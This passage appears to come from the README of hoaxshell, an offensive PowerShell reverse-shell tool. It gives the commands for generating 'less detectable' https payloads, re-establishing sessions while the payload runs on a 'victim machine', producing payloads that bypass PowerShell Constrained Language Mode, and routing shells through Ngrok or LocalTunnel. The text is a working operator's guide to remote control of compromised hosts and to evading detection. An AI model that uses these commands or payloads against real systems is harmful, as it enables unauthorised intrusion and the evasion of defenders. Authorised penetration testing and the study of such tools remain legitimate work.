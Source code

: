 ### Encrypted shell session with a trusted certificate
If you own a domain, use this option to generate a shorter and less detectable https payload by providing your DN with -s along with a trusted certificate (-c cert.pem -k privkey.pem).
```
sudo python3 hoaxshell.py -s <your.domain.com> -t -c </path/to/cert.pem> -k <path/to/key.pem>
```

### Grab session mode
In case you close your terminal accidentally, have a power outage or something, you can start hoaxshell in grab session mode, it will attempt to re-establish a session, given that the payload is still running on the victim machine.
```
sudo python3 hoaxshell.py -s <your_ip> -g
```  
**Important**: Make sure to start hoaxshell with the same settings as the session you are trying to restore (http/https, port, etc).

### Constraint language mode support
Use any of the payload variations with the `-cm` (--constraint-mode) option to generate a payload that works even if the victim is configured to run PS in Constraint Language mode. By using this option, you sacrifice a bit of your reverse shell's stdout decoding accuracy.

```
sudo python3 hoaxshell.py -s <your_ip> -cm
```  
![image](https://user-images.githubusercontent.com/75489922/195785804-7fa3da9b-a10f-4c72-895a-0648271e7ec6.png)


### Shell session over https using tunneling tools ([Ngrok](https://ngrok.com) / [LocalTunnel](https://localtunnel.me))
Utilize tunnelling programmes **Ngrok** or **LocalTunnel** to get sessions through secure tunnels, overcominge issues like not having a Static IP address or your ISP forbidding Port-Forwarding.

Use `-ng` or `--ngrok` for Ngrok server
```
sudo python3 hoaxshell.py -ng
```

Use `-lt` or `--localtunnel` for LocalTunnel server
```
sudo python3 hoaxshell.py -lt
```

## Limitations
The shell is going to hang if you execute a command that initiates an interactive session. Example:  
```
# this command will execute succesfully and you will have no problem: 
> powershell echo 'This is a test'

# But this one will open an interactive session within the hoaxshell session and is going to cause the shell to hang:
> powershell

# In the same manner, you won't have a problem executing this:
> cmd /c dir /a

# But this will cause your hoaxshell to hang:
> cmd.exe
```  

